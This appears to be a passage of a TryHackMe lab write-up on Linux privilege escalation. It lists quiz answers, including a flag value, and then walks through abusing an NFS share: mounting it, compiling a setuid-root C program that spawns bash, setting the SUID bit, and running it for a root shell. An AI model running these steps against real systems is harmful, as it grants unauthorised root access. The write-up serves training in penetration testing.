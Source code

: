 
| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| What is the odd folder you have write access for ? | /home/murdoch |
| What is the content of the flag6.txt file ? | THM-736628929 |


## Privilege Escalation : NFS

> Machine IP : `10.10.218.100`

### NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users.

> from our attack machine we will first check the mountpoints
```
showmount -e 10.10.218.100
```
> now mount any of the endpoint to our local machine
```
sudo mkdir /tmp/nfs
sudo mount -O rw 10.10.218.100:/home/ubuntu/sharedfolder /tmp/nfs
```
> after mounting just go to the `/tmp/nfs` folder of our local machine. and create a `exploit.c` file with the following code.
```
#include<unistd.h>
int main()
{
 setgid(0);
 setuid(0);
 system("/bin/bash");
 return 0;
}

```
> now compile the code from local machine 
```
sudo gcc exploit.c -o exploit -w

```

> now set the `SUID` bit on the binary so that we can run it from the vm .
```
sudo chmod +sx exploit
```

> now from the vm just run the `exploit` binary and we will get a root shell.

> find the `flag7.txt`
```
find / -type f -name flag7.txt 2>/dev/null
```
